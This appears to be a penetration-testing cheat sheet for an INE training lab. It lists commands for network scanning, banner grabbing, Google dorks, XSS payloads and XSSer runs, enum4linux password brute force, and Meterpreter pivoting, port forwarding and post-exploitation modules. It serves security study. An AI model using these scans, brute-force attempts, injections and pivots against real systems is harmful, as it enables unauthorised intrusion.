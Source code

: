 ## Networking

Check routing table information

```
$ route 
$ ip route
```

Add a network to current route

```
 ip route add <network_ip>/<cidr> via <gateway_ip> dev <network_card_name>
 
```
### Example
```
$ ip route add 192.168.10.0/24 via 10.175.3.1 dev eth1
```

```
$ route add -net 192.168.10.0 netmask 255.255.255.0 gw 10.175.3.1
```
## Footprinting & Scanning

Find live hosts with fping or nmap

```
$ fping -a -g 172.16.100.40/24 2>/dev/null | tee alive_hosts.txt
```

```
$ nmap -sn 172.16.100.40/24 -oN alive_hosts.txt

```


### nmap scan types
```
-sS: TCP SYN Scan (aka Stealth Scan)
-sT: TCP Connect Scan 
-sU: UDP Scan
-sn: Not Port Scan
-sV: Service Version information
-O: Operating System information
```

```
nmap --script=mysql-*
nmap -p27017 --script=mongodb-brute target-2
```

## Subdomain Enumeration

- [Sublist3r](https://github.com/aboul3la/Sublist3r)
- [DNSdumpster](https://dnsdumpster.com/)


## Web Server Fingerprinting

Use netcat for HTTP banner grabbing:
```
$ nc <target addr> 80
HEAD / HTTP/1.0
```

Use OpenSSL for HTTPS banner grabbing:
```
$ openssl s_client -connect target.site:443
HEAD / HTTP/1.0
```

httprint is a web fingerprinting tool that uses **signature-based** technique
to identify web servers. This is more accurate since sysadmins can customize
web server banners.

```
$ httprint -P0 -h <target hosts> -s <signature file>
```

## Google Hacking

site:
intitle:
inurl:
filetype:
AND, OR, &, |

```
Example : inurl:admin intitle:login
```
[Google Hacking Database ](https://www.exploit-db.com/google-hacking-database)

## XXS (Cross Site  Scripting)

Look to exploit user input coming from:
- Request headers
- Cookies
- Form inputs
- POST parameters
- GET parameters

Check for XSS
```
<script>alert(1)</script>
<i>some text</i>
```

Steal cookies:
```
<script>alert(document.cookie)</script>
```

### Xsser Tool 

```
xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'

target_host=XSS > Is Variable

```

 ## XSSer's "--auto" option

 ```
 xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --auto

 ```
## Using custom XSS payload

 ```
xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --Fp "<script>alert(1)</script>"

 ```

 In Burp Suite, replace the POST parameters with the final attack 

```
target_host=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&dns-lookup-php-submit-button=Lookup+DNS

```
## Enum4linux 
- enum4linux -U # enum Users
- enum4linux -d -S # detail and Share list
- enum4linux -n # nbstat if server avaible you got <20>
- enum4linux -s ~/Desktop/wordlists/100-common-passwords.txt # share brute force


# Meterpreter Rooting
## pivot to the otherwise unreachanble network
```
run autoroute -s 192.69.228.0 -n 255.255.255.0
```
## Scan subnet with msf
```
use auxiliary/scanner/portscan/tcp
set PORTS 80, 8080, 445, 21, 22
set RHOSTS 192.69.228.3-10
exploit
```
## Forwarding the remote port to local port
```
portfwd add -l 1234 -p 21 -r 192.69.228.3
portfwd list
```
```
background
nmap -sS -sV -p 1234 localhost
```
# Meterpreter Post-Exploitation
## Enum_users_Information

```
use post/linux/gather/enum_users_history
```
## Setting Proxy Socks

```
use auxiliary/server/socks_proxy
```
# Meterpreter mysql
## remote server 
```
exploit/multi/mysql/mysql_udf_payload
```

